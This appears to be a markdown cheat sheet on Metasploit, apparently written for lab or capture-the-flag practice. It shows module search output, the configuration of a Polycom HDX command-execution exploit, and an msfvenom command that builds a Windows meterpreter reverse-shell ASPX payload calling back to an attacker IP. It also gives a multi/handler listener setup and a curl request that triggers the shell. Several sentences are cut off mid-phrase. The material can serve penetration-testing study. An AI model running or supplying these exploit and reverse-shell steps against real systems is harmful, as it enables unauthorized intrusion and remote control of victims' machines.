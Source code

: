 # Metasploit

Metasploit is a penetration testing framework that makes hacking simple. It is a powerful tool that can be used to exploit vulnerabilities in a system.

## Usage

To use Metasploit, you need to start the Metasploit console by running the following command:

```bash
msfconsole
```

Once you have started the Metasploit console, you can use the `search` command to search for exploits, payloads, and other modules. For example, to search for exploits that target a specific service, you can run the following command:

```bash
search <service>

msf6 > search OpenSSL

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   0   payload/bsd/x86/exec                                                   normal     No     BSD Execute Command
   1   payload/osx/x86/exec                                                   normal     No     OS X Execute Command
   2   auxiliary/server/openssl_altchainsforgery_mitm_proxy  2015-07-09       normal     No     OpenSSL Alternative Chains Certificate Forgery MITM Proxy
   3   auxiliary/dos/ssl/dtls_changecipherspec               2000-04-26       normal     No     OpenSSL DTLS ChangeCipherSpec Remote DoS
   4   auxiliary/dos/ssl/dtls_fragment_overflow              2014-06-05       normal     No     OpenSSL DTLS Fragment Buffer Overflow DoS
   5   auxiliary/server/openssl_heartbeat_client_memory      2014-04-07       normal     No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   6   auxiliary/scanner/ssl/openssl_heartbleed              2014-04-07       normal     Yes    OpenSSL Heartbeat (Heartbleed) Information Leak
   7   auxiliary/scanner/ssl/openssl_ccs                     2014-06-05       normal     No     OpenSSL Server-Side ChangeCipherSpec Injection Scanner
   8   auxiliary/dos/ssl/openssl_aesni                       2013-02-05       normal     No     OpenSSL TLS 1.1 and 1.2 AES-NI DoS
   9   exploit/unix/misc/polycom_hdx_traceroute_exec         2017-11-12       excellent  Yes    Polycom Shell HDX Series Traceroute Command Execution
   10  auxiliary/scanner/ssl/ssl_version                     2014-10-14       normal     No     SSL/TLS Version Detection
   11  payload/cmd/unix/reverse_openssl                                       normal     No     Unix Command Shell, Double Reverse TCP SSL (openssl)


Interact with a module by name or index. For example info 11, use 11 or use payload/cmd/unix/reverse_openssl
```

To use an exploit, you can use the `use` command followed by the name or index of the exploit. For example, to use the `exploit/unix/misc/polycom_hdx_traceroute_exec` exploit, you can run the following command:

```bash
msf6 > use exploit/unix/misc/polycom_hdx_traceroute_exec 
[*] Using configured payload cmd/unix/reverse
msf6 exploit(unix/misc/polycom_hdx_traceroute_exec) > options

Module options (exploit/unix/misc/polycom_hdx_traceroute_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CBHOST                     no        The listener address used for staging the final payload
   CBPORT                     no        The listener port used for staging the final payload
   PASSWORD                   no        Password to access console interface if required.
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     23               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

Using options as we can see above, we can set the required options for the exploit. To set an option, you can use the `set` command followed by the option name and value. For example, to set the `RHOSTS` option to `

```bash
msf6 exploit(unix/misc/polycom_hdx_traceroute_exec) > set RHOSTS 10.10.11.3
RHOSTS => 10.10.11.3
```

Then to run the exploit, you can use the `run`

## Reverse Shell

If we can upload a file to the target machine, we can upload a reverse shell.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > devel.aspx
```

Then we can use the `exploit/multi/handler` module to listen for the incoming connection.

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST MACHINE_IP
set LPORT 4444
run
```

Then we can navigate to the `devel.aspx` file on the target machine to get a reverse shell.

```bash
curl http://10.10.10.5/devel.aspx
```

And now in the metaexploit console we should see the following:

```bash
[*] Sending stage (175174 bytes) to
[*] Meterpreter session 1 opened

meterpreter > sessions -i 1
```

## Meterpreter

Once we have a reverse shell, we can use the Meterpreter shell to interact with the target machine. We can use the following commands to interact with the Meterpreter shell:

- `sysinfo`: Get system information
- `getuid`: Get the user that the process is running as